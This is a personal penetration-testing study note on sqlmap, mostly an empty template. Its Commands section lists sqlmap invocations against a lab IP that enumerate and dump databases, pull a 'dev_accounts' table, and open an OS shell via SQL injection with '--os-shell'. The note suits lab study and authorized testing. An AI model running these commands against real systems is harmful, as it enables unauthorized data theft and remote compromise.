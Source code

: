 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[sqlmap]]  
___

## Description:


## Installation


## Commands

**URL**
```
sqlmap -u http://10.11.0.22/debug.php?id=1 --dump
```


**Using a saved request**
Save the request from burp in the proxy tab by going to action, and then save item.
Then run sqlmap with the following (burp1 is the file saved from burp):
```

sqlmap -r burp1 --risk=3 --level=5 -databases --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery --tables --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch

```

Getting a shell:

```
 sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:22 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
